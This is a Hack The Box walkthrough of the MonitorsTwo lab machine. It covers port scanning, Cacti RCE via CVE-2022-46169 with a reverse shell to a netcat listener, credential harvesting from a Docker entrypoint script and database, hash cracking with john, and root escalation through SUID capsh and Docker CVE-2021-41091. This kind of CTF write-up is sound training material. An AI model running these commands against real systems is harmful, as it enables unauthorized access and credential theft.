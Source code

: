 ```yaml
---
title: "HTB: MonitorsTwo"
date: 2024-06-24
image: 
  path: /assets/img/HTB/MonitorsTwo/MonitorsTwo.png
categories: [Hack The Box, Machines]
---
```


## Information

- OS: Linux
- Difficult: Easy
- IP address: 10.10.11.211

## Enumeration

### Ports and services

Firstly, we enumerate open ports on the machine 

`sudo nmap -sS -p- --open --min-rate=5000 -v -n -Pn 10.10.11.211 -oG allPorts`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195247.png)

We only have the ports 22 and 80, which run ssh and http, lets see what services version they run

`sudo nmap -sCV -p22,80 -v -n -Pn 10.10.11.211 -oN services`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195517.png)

So, target machine's running OpenSSH 8.2p1 and a nginx 1.18.0

### HTTP server

Going into http://10.10.11.211 and just show us a user login page:

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622195745.png)

The login page belongs to Cacti, which is a monitoring software that we can consult in their [official website](https://www.cacti.net/)

Fuzzing the webpage with ffuf will show us

`ffuf -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -c -u http://10.10.11.211/FUZZ -e .php,.html,.txt -fs 13844`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622200020.png)

Navigating to any resource of this site only shows us the login page, so we  can assume that we need to be authenticated to access it

*utilities.php*
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622200427.png)

## Shell as www-data 

The Cacti's version is 1.2.22. If we make a search we can found [CVE-2022-46169](https://www.cvedetails.com/cve/CVE-2022-46169/) which allows a RCE, and a [exploit](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) associate

Before use it we will open a listener on our machine on port 4242 `nc -nvlp 4242`
and then use the exploit, indicating the web's url, our ip and our listener's port

`python3 rceExploit.py  -u http://10.10.11.211 --LHOST=10.10.14.61 --LPORT=4242`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622204450.png)

And on our nc listener we received a shell

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622204517.png)

To stabilize a shell use on the target machine `script /dev/null -qc /bin/bash`, then use CTRL + Z to suspend the reverse shell and use `stty raw -echo; fg`

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622205817.png)

Now we can use CTRL + C to clean the shell without kill it, but we cannot use CTROL + l to clean the shell yet, for it we'll use `export TERM=xterm`

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622210018.png)

And we got a full interactive shell

## Shell as marcus

### Enumerating Docker container

On target system we can see we are www-datals, the kernel version is 5.4.0-147-generid and the groups we belongs to 

![[Pasted image 20240622210307.png]]

In the root directory we have a *.dockerenv* file, so we are in a docker container. Also we have a script called *entrypoint.sh*

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211014.png)

*entrypoint.sh*
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211042.png)

This script leak credentials for a mysql database. Lets connect to this DB

`mysql -h db --user=root -proot`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211424.png)

Existent databases:

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211512.png){: left }

Enumerating the cacti's database tables
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211632.png)
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622211645.png)

The user_auth table saves authentication info

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622212017.png)

Lets show the users, passwords and emails

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622212102.png)

user_auth shows 3 users, where 2 of them have hashes. We will add them to *hashes.txt* on our attacking machine and try to crack them with the *rockyou* wordlist

`nano hashes.txt`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622220337.png)

`john --wordlist=/usr/share/wordlist/rockyou.txt hashes.txt`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622221016.png)

Lets try to connect via SSH with these credentials

`ssh marcus@10.10.11.211`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622221248.png)

Now we are in the docker's host machine, and we have a message saying we have a mail

## Shell as root

In this machine we are marcus user, we don't belong to any special group and the kernel version is 5.4.0-147-generic

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622223339.png)

The email is from the security team advising us that there are some vulnerabilities to fix: CVE-2021-33033 on linux kernels before 5.11.14, CVE-2020-25706 on Cacti 1.2.13 and CVE-2021-41091 on Docker versions before 20.10.9

`cat /var/mail/marcus`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622230128.png)

For the first CVE, machine's kernel is based in 5.4 series while the vulnerability is for 5.11 one.

The second vulnerability, CVE-2020-25706 is a XSS so it doesn't help us to escalate privileges. 

So lets check the third one, CVE-2021-41091 cause our docker is running version 20.10.5, older than 20.10.9

![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622232349.png)

### Privileges escalation in Docker container

In order to exploit this vulnerability we need to be root on the docker container

Listing the SUID permissions we found that *capsh* has it. Searching in [GTFOBins](https://gtfobins.github.io/) we'll know how to abuse this to escalate privileges

`find / -perm -4000 2>/dev/null`
`/sbin/capsh --gid=0 --uid=0 --`
![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622233552.png)

### Exploiting CVE-2021-41091

In this [GitHub repository](https://github.com/UncleJ4ck/CVE-2021-41091) there are a exploit and the instructions to use it:

- To assign SUID permission on /bin/bash in the container
	`chmod u+s /bin/bash`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622234030.png)
- Then we already can execute the exploit on the host machine
	`./exp.sh`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622235057.png)
- The exploit says us that in case we weren't root, go to a provided path and execute `./bin/bash p`
	![](/assets/img/HTB/MonitorsTwo/Pasted image 20240622235219.png)

And finally we have pwned the machine